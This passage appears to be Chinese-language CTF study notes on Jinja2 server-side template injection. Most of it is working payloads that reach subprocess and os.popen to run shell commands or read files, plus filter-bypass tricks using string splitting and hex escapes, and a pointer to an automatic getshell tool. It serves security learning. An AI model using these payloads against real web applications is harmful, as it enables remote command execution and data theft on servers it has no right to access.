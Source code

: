 5、其他常用类利用：
```
<type 'file'>
[].__class__.__base__.__subclasses__()[40]('fl4g').read()

<class 'subprocess.Popen'>
{{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
{{''.__class__.__mro__[2].__subclasses__()[258]('ls /flasklight',shell=True,stdout=-1).communicate()[0].strip()}}
{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```






^
## **绕过**
案例：
如由于使用['__globals__']会造成500的服务器错误信息，并且当我直接输入search=globals时页面也会500，觉得这里应该是被过滤了，所以这里采用了字符串拼接的形式['__glo'+'bals__']
```
{{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}


等效：
request.__class__
request["__class__"]
request["__cla""ss__"]
request["__cla"+"ss__"]
request|attr("__class__")

array[0]
array.pop(0)
```
单引号'被过滤可以用双引号"代替；至于点.和下划线_被过滤可以采用16进制来表示，用[](类似数组下标)的方式选定。知道怎么过滤了那就照着以前payload修改就好了。
```
{{config["\x5f\x5fclass\x5f\x5f"]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("whoami")["read"]()}}

利用frozen_importlib_external.FileLoader类
get_data方法直接读打开过的文件内容
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}
```
SSTI绕过注入:<https://xz.aliyun.com/t/3679#toc-11>
<https://www.cnblogs.com/2ha0yuk7on/p/16648850.html>
ctf详解:<https://www.cnblogs.com/Article-kelp/p/14797393.html#questionOne>
python解题模板:<https://blog.csdn.net/qq_51096893/article/details/122020518>
全自动绕过getshell的jinjia2工具：<https://github.com/Marven11/Fenjing>
字符长度限制：<https://blog.csdn.net/weixin_43995419/article/details/126811287>
```
pip install fenjing
fenjing webui
# fenjing scan --url 'http://xxxx:xxx'
```
